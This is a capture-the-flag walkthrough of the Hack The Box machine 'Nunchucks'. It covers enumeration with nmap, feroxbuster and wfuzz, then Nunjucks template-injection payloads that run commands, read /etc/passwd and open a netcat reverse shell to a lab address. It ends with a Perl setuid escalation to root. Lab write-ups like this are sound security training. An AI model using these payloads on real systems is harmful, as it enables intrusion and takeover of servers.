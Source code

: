 ```yaml
---
title: Nunchucks - A HackTheBox machine 
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - walkthrough
---
```


# Nunchucks - A Hack The Box machine


## User's flag

###  Enumeration

```shell-session
nmap -sC -sV 10.129.95.252 -Pn
```

Open ports: 22, 80, and 443.

Also http://nunchucks.htb is in results.

Adding IP and domain nunchucks.htb to /etc/hosts.

```shell-session
whatweb http://nunchucks.htb 
```

And some directory enumeration:

```
feroxbuster -u https://nunchucks.htb -k
```

Results:

```
200      GET      250l     1863w    19134c https://nunchucks.htb/Privacy
200      GET      245l     1737w    17753c https://nunchucks.htb/Terms
200      GET      183l      662w     9172c https://nunchucks.htb/login
200      GET      187l      683w     9488c https://nunchucks.htb/signup
```

Trying to login into the application or signing up returns the following response message:

```
{"response":"We're sorry but user logins are currently disabled."}

{"response":"We're sorry but registration is currently closed."}
```

Now, we will try some subdomain enumeration

```shell-session
wfuzz -c --hc 404 -t 200 -u https://nunchucks.htb/ -w /usr/share/dirb/wordlists/common.txt -H "Host: FUZZ.nunchucks.htb" --hl 546
# -c: Color in output
# –hc 404: Hide 404 code responses
# -t 200: Concurrent Threads
# -u http://nunchucks.htb/: Target URL
# -w /usr/share/dirb/wordlists/common.txt: Wordlist 
# -H “Host: FUZZ.nunchucks.htb”: Header. Also with "FUZZ" we indicate the injection point for payloads
# –hl 546: Filter out responses with a specific number of lines. In this case, 546
```

Results: store

We will add store.nunchucks.htb to /etc/hosts file.


### Exploitation

Browsing https://store.nunchucks.htb is a simple landing page to collect emails. There is a form for this purpose. After fuzzing it with Burpsuite we find this interesting output:

![Example](img/nunchucks_1.png)

Some code can get executed in that field. This vulnerability is known as [Server-side Template Injection (SSTI)](webexploitation/server-side-template-injection-ssti.md)

Once we have an injection endpoint, it's important to identify the application server and template engine running on it, since payloads and exploitation pretty much depends on it.

From headers response we have: "X-Powered-By: Express". 

Having a look at template engines in Express at [https://expressjs.com/en/resources/template-engines.html](https://expressjs.com/en/resources/template-engines.html), there exists a **[Nunjucks](https://github.com/mozilla/nunjucks)**, which is close the domain name nunchucks. 

This blog post describe how we can exploit this vulnerability: http://disse.cting.org/2016/08/02/2016-08-02-sandbox-break-out-nunjucks-template-engine


Basically, I'm using the following payloads:

```
{{range}}

{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('id')\")()}}

{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('tail /etc/passwd')\")()}}

{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.3 1234 >/tmp/f')\")()}}
```

The last one is a reverse shell. Before running it in BurpSuite Repeater, I've setup my listener with netcat on port 1234.


## Root's flag

### Privileges escalation

We'll abuse some [process capability vulnerability](process-capabilities-getcap.md) to escalate to root. First we list processes capabilities:

```
getcap -r 2>/dev/null
```

Result:

```
/usr/bin/perl = cap_setuid+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
```

We will use perl binary to escalate. 

```
echo -ne '#!/bin/perl \nuse POSIX qw(setuid); \nPOSIX::setuid(0); \nexec "/bin/bash";' > pay.pl
chmod +x pay.pl
./pay.pl
```

And you are root.

